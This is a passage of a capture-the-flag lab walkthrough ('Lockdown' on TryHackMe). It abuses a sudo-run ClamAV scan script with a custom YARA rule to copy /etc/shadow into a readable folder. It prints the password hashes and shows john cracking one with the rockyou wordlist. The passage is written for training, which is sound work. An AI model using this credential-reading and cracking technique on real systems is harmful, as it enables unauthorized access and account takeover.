 What this rule does is that it searches for the string "root" within the file we are scanning, and if it finds a match, it flags it as a virus and outputs it to `/home/cyrus/quarantine/` where we can read it. (We can search for "THM" which gives us the root flag, but where's the fun in that? : / )

After changing the rules, I copied the content of `/etc/shadow` which holds the password hashes of the users in a linux machine:

~~~
cyrus@lockdown:~$ sudo /opt/scan/scan.sh
Enter path: /etc/shadow
/etc/shadow: YARA.test.UNOFFICIAL FOUND
/etc/shadow: copied to '/home/cyrus/quarantine/shadow'

----------- SCAN SUMMARY -----------
Known viruses: 1
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.163 sec (0 m 0 s)
Start Date: 2021:11:17 13:22:00
End Date:   2021:11:17 13:22:00
cyrus@lockdown:~$ cd quarantine/
cyrus@lockdown:~/quarantine$ ls
shadow
cyrus@lockdown:~/quarantine$ cat shadow 
root:*:18480:0:99999:7:::
daemon:*:18480:0:99999:7:::

[REDACTED]

sshd:*:18757:0:99999:7:::
maxine:$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320:18838:0:99999:7:::
cyrus:$6$YWzR.V19JxyENT/D$KuSzWbb6V0iXfIcA/88Buum92Fr5lBu6r.kMoQYAdfvbJuHjO7i7wodoahlZAYfFhIuymOaEWxGlo0WkhbqaI1:18757:0:99999:7:::
mysql:!:18758:0:99999:7:::
clamav:!:18758:0:99999:7:::
~~~

### Cracking maxine's password

We don't have root's password hash, but we have the password hash of the other user `maxine`. I saved the hash in my machine and started cracking it using `john` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Lockdown/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt maxine.hash                
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tiarna           (maxine)     
1g 0:00:00:38 DONE (2021-11-17 08:23) 0.02590g/s 2095p/s 2095c/s 2095C/s 063006..skyla1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
